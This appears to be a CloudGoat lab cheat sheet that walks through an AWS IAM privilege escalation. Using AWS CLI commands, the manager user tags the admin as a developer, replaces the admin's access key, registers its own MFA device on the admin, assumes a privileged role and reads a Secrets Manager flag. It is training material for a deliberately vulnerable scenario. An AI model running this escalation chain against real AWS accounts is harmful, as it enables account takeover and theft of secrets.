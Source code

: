 # IAM Privecs by Key Rotation Cheat Sheet

### 1. Configure AWS CLI with the Manager Profile
After launching the scenario, you will begin with an Access Key and Secret. Configure a new profile with those credentials. This ensures that all AWS commands are executed under the `manager` profile, which has specific IAM permissions.

```bash
aws configure --profile manager
```

### 2. Enumerate IAM Policies
We check the IAM policies attached to the user to understand what actions we can perform.

```bash
aws iam list-user-policies --user-name manager_iam_privesc_by_key_rotation_<cloudgoat_id> --profile manager
```
### Expected Output:
This will return policy names:
- `SelfManageAccess`
- `TagResources`

To examine these policies in detail:

```bash
aws iam get-user-policy --user-name manager_iam_privesc_by_key_rotation_<cloudgoat_id> --policy-name SelfManageAccess --profile manager

aws iam get-user-policy --user-name manager_iam_privesc_by_key_rotation_<cloudgoat_id> --policy-name TagResources --profile manager
```
- The `SelfManageAccess` policy may allow us to modify our own access.
- The `TagResources` policy could enable us to tag IAM users, which might be useful for privilege escalation.
- With these permissions, we can tag and change access keys for users with the tag `developer=true` 

### 3. Identify the Privilege Escalation Path
By examining the IAM users in the environment, we find:
- A **developer user**.
- An **admin user**, which has permission to assume a specific role:  
  `cg_secretsmanager_iam_privesc_by_key_rotation_<cloudgoat_id>`.

This role grants access to retrieve a secret flag, which is our target.

### 4. Exploit the Tagging Permission
We use our ability to tag IAM users to trick the system into giving admin privileges. Since we have permission to tag users, we tag the admin user as a developer so we can modify the admin's access keys. 

```bash
aws iam tag-user --user-name admin_iam_privesc_by_key_rotation_<cloudgoat_id> --tags '{"Key":"developer","Value":"true"}' --profile manager
```

### 5. Rotate Admin User’s Access Keys
We need to delete the admin’s current access key and create a new one. This new access key will give us full control over the admin user. 

#### 5.1: List Admin User’s Access Keys
```bash
aws iam list-access-keys --user-name admin_iam_privesc_by_key_rotation_<cloudgoat_id> --profile manager
```
#### 5.2: Delete the Old Access Key
```bash
aws iam delete-access-key --user-name admin_iam_privesc_by_key_rotation_<cloudgoat_id> --access-key-id <ACCESS_KEY_ID> --profile manager
```
#### 5.3: Create a New Access Key
```bash
aws iam create-access-key --user-name admin_iam_privesc_by_key_rotation_<cloudgoat_id> --profile manager
```

### 6. Assume the Role as Admin
Now that we have admin credentials, we configure AWS CLI with them.

```bash
aws configure --profile admin
```

Let's attempt to assume the privileged role:

```bash
aws sts assume-role --role-arn arn:aws:iam::0123456789:role/cg_secretsmanager_iam_privesc_by_key_rotation_<cloudgoat_id> --role-session-name cloudgoat_secret --profile admin
```
Note we get an **Access Denied** message because the role requires Multi-Factor Authentication (MFA) 

### 7. Create a Virtual MFA Device
To bypass the MFA requirement, we create a virtual MFA device that we can use to authenticate as the admin.

```bash
aws iam create-virtual-mfa-device --virtual-mfa-device-name cloudgoat_virtual_mfa --outfile QRCode.png --bootstrap-method QRCodePNG --profile manager
```
### Expected Output:
- `"SerialNumber": "arn:aws:iam::0123456789:mfa/cloudgoat_virtual_mfa"`

### 8. Enable MFA for the Admin User
Using the QR code generated, scan it with an MFA application (e.g., Google Authenticator).  
Then, provide two consecutive MFA tokens to enable MFA:

```bash
aws iam enable-mfa-device     --user-name admin_iam_privesc_by_key_rotation_<cloudgoat_id>     --serial-number arn:aws:iam::0123456789:mfa/cloudgoat_virtual_mfa     --authentication-code1 <MFA Code #1>     --authentication-code2 <MFA Code #2>     --profile manager
```

### 9. Assume the Role with MFA
Switch back to the admin profile (while using MFA this time):

```bash
aws sts assume-role --role-arn arn:aws:iam::0123456789:role/cg_secretsmanager_iam_privesc_by_key_rotation_<cloudgoat_id> --role-session-name cloudgoat_secret --profile admin --serial-number arn:aws:iam::0123456789:mfa/cloudgoat_virtual_mfa --token-code <TOKEN_CODE>
```
### Expected Output:
This will return temporary credentials:

```
"AccessKeyId": "ASIA..."
"SecretAccessKey": "Mm8ij9L8eV..."
"SessionToken": "IQoJb3JpZ2luX2VjE..."
```

### 10. Configure the AWS CLI with the Admin Credentials
Edit the AWS credentials file (`~/.aws/credentials`) and add

```
[admin]
aws_access_key_id = ASIA...
aws_secret_access_key = Mm8ij9L8eV...
aws_session_token = IQoJb3JpZ2luX2VjE...
```
- This allows us to use the admin credentials in subsequent AWS CLI commands.

### 11. Retrieve the Secret Flag
Now, we use our elevated privileges to retrieve the secret.

```bash
aws secretsmanager list-secrets --profile admin
```

```bash
aws secretsmanager get-secret-value --secret-id cg_secret_iam_privesc_by_key_rotation_<cloudgoat_id> --profile admin | grep flag
```

## Recap
By leveraging misconfigured IAM permissions, we:
1. Used our ability to tag IAM users to escalate privileges.
2. Rotated the admin’s access key to gain control.
3. Enabled MFA to bypass security restrictions.
4. Assumed a privileged role and retrieved the secret flag.


